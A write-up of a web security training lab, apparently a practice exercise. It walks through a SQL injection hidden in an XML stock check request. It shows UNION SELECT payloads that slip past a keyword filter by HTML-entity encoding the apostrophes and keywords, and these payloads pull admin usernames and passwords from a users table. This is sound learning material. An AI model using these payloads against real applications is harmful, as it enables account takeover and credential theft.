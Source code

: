 # Description
This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

# Process
## The website
The basic website was a shop with multiple products. On each product page was a feature to check the stock of the product.

When the "Check stock" button was pressed, it would send a request like this:
```
POST /product/stock HTTP/1.1

(Content)

<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			7
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```
which would return the number of units available like this:
```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 9

390 units
```

## Starting out
I figured that the exploit was within the XML part of the request thanks to the title of the lab, so I tried messing around with it. Knowing that it was SQL injection, I put an apostrophe behind the `storeId` value:
```
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			7
		</productId>
		<storeId>
			1'
		</storeId>
	</stockCheck>
```
which returned a response with a body of `Attack detected!`, the page just showing "Could not fetch stock levels!"

To bypass the filter, I tried using HTML encoding. The HTML entity equivalent of an apostrophe is `&#39;`, so I plugged that in:
```
<storeId>
	1 &#39;
</storeId>
```
This time, the response was just `0 units`, implying that it had messed with the system. That means that the filter was bypassed.

## Will UNION injections work?
First, I tried a UNION injection:
```
<storeId>
	1 &#39; UNION SELECT NULL;--
</storeId>
```
This returned the same `Attack detected!` as before, so that implies that something triggered the filter. I tried again with a condensed version:
```
<storeId>
	1 &#39; UNION SELECT NULL
</storeId>
```
This also triggered the filter, so that means that I need to encode the keywords too. Instead of testing each one, I encoded them all:
```
<storeId>
	1 &#39; &#85;NION &#83;ELECT NULL
</storeId>
```
This didn't do anything, so I got rid of the apostrophe:
```
<storeId>
	1 &#85;NION &#83;ELECT NULL
</storeId>
```
This time, the response was `390 units` and `null`, showing that it had worked! I added another `NULL` after the first one, but that didn't work, so that means that only one column is returned at a time.

I now know that if I get `0 units` as a response, there was an error with the syntax. I can use this for a few things.

## Going on a tangent
First, I used it to find the name of a table. The lab description said that there was a table named `users`, but I didn't remember that, so I messed around. First, I tried to find a table named `stock`, but that didn't work. Next, I tried `products`:
```
<storeId>
	1 &#85;NION &#83;ELECT NULL FROM products
</storeId>
```
This worked, returning `null` and `390 units`. Next, I had to find a column names. I tried `name` first:
```
<storeId>
	1 &#85;NION &#83;ELECT name FROM products
</storeId>
```
This returned a list of product names:
```
Portable Hat
Six Pack Beer Belt
Sprout More Brain Power
...
Eggtastic, Fun, Food Eggcessories
The Alternative Christmas Tree
Snow Delivered To Your Door
```
I tried `price` next, but that didn't work. Neither did `cost`, `amount`, `quantity`, `stock`, and so on. `description` worked, but that wasn't useful.

## The USERS table
I remembered what I was doing, and tried the `users` table:
```
<storeId>
	1 &#85;NION &#83;ELECT NULL FROM users
</storeId>
```
This returned `null` and `390 units`, so I knew it existed. Next, I tried to guess column names. First, I did `username`:
```
<storeId>
	1 &#85;NION &#83;ELECT username FROM users
</storeId>
```
This returned a list of users, among which was `administrator`. Next, I just needed the password, so I tried the `password` column:
```
<storeId>
	1 &#85;NION &#83;ELECT password FROM users
</storeId>
```
This returned a list of strings that I assumed were passwords, cool! I could have ended there, but I wanted to make it nicer and test my skills a little more, so I tried to concatenate them:
```
<storeId>
	1 &#85;NION &#83;ELECT username || '~' || password FROM users
</storeId>
```
This gave an error, and I remembered I had to encode the apostrophes:
```
<storeId>
	1 &#85;NION &#83;ELECT username || &#39;~&#39; || password FROM users
</storeId>
```
This returned all of the usernames and passwords in the format `username~password`, which was just what I needed. I logged in with the admin account and completed the lab.